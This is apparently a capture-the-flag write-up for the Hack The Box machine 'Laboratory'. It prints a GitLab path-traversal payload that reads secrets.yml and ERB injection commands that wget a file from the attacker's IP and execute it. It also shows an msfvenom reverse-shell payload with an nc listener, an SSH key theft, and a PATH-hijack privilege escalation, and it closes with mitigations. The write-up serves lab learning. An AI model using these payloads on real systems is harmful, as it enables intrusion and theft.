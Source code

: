 # Laboratory



## Contents

- [**About Box**](#"About Box")
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**Own User**](#"Own User")
  - [**Own Root**](#"Own Root")

- [**Mitigation**](#Mitigation)



## About the box

[![](img/box_info.png)]()



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)





## Enumeration

First, i start nmap scanning:

```bash
nmap -sC -sV -oN nmap_res 10.10.10.216
```



###### Active services:

- **SSH**

- **HTTP**
- **HTTPS**



![nmap_scan](img/nmap_scan.png)





First i try **HTTPS** protocol and i get this:

![](img/url_error_message.png)



So, i have to edit my `/etc/hosts` file to add the corresponding **DNS Server names** to the target ip:

`10.10.10.216	laboratory.htb git.laboratory.htb`

Now, i can access to the web page. After a few minutes on the main page, i get nothing so i decide to go in the `git.laboratory.htb`. I try to create an account to access to the git main page. I have to use the domain name of the website for the mail:![](img/git_register.png)



I explored the git page and i found a project with the user Dexter:![](img/git_dexter.png)



Here, i think i need to be able to connect to his account to manage the website. So, first, i try to find the deployed git version and i found it in the help page:

![](img/git_version.png)

Now, i just need to search an exploit which is available on this version. Finally, i found an interesting post which say that we can make a **RCE** with this version of gitlab:

![](img/git_rce_post.png)



## Exploitation

To use this exploit, i have to get the secret_key_base of the server gitlab and add it to my gitlab-rails config:

![](img/exploit_step.png)

I tried this description for the issue: `![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

When i moved the issue in my second project, i get the secrets.yml file:

![](img/secret_key_base.png)

I downloaded it and cat the file to copy the secret_key_base on my own secrets.yml :

![](img/secret_key_base_2.png)



I installed gitlab with the correct version and try this steps to trigger a **RCE**.

First, i launched gitlab rails console with the following command: `sudo gitlab-rails console `. 

In the same time, i create a SimpleHTTPServer with python: `python -m SimpleHTTPServer 8888`.

Before writing this commands, i create a file `test`and i edit the `erb` variable with ```erb = ERB.new("<%= `cd /tmp/ &&  wget http://10.10.14.121:8888/test` %>")```

I send this commands to the gitlab console and generated the corresponding cookie. Finally, i send request using curl with the cookie and i received the wget answer:

![](img/rce_test_file.png)



So, the **RCE** worked, at this point, i tried to get a reverse shell.

I generate an elf file using msfvenom to execute it remotely: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f elf >reverse_shell.elf`

In the same time, i use netcat to listen the specified port: `nc -lvp 4444`

I re-edit the `erb` variable with this command: ```erb = ERB.new("<%=`cd /tmp/ &&  wget http://10.10.14.121:8888/reverse_shell.elf && chmod +x reverse_shell.elf && ./reverse_shell.elf` %>"```

After that, i got the reverse shell: 

![](img/rce_reverse_shell_edit.png)



## Post-exploitation

### Own User

I know we are in the gitlab server which handles the website. I also know the username name of the user we got in the gitlab website: Dexter.

So, i after a few research, i learned that i can easily edit the user password using `gitlab-rails console`:

<img src="img/edit_dexter_password.png" style="zoom:100%;" />



I tried to connect to Dexter account with the password i edited and it worked. In his account, i retrieve the private key for the ssh connection:

![](img/private_key.png)



I dowloaded this file and used it for the ssh connection, and it worked again:

![](img/user_pwned.png)



### Own Root

First, i launched a linPEAS to enumerate possible privesc. After a few looks, i found an unusual **SUID** binary file:

![](img/docker-security.png)

I tried to read readable ASCII character using `strings` command in my kali and found interesting lines, especially, the lines with chmod:

![](img/docker-security_chmod.png)



So, here we can conclude that chmod command is launched without the absolute path from the `docker-security` script with the root privilege because of the **SUID** permission.

I decided to create a custom script named `chmod` and add the temperally directory to the `PATH` to execute my script instead of `/bin/chmod`. I just used `/bin/bash -i` to launch an interactive bash shell:

![](img/chmod_script.png)



Finally, i make my file executable, execute `docker-security` and i got bash with root privilege:

![](img/root_pwned.png)



## Mitigation

To avoid vulnerabilities in this box, it is recommended to:

- Upgrade gitlab to the last version
- Do not be tempted to roll your own **SUID** utilities unless you really have to
- Use absolute path of command used in script
- Use `getconf PATH` in the start of the script to avoid unknown script execution 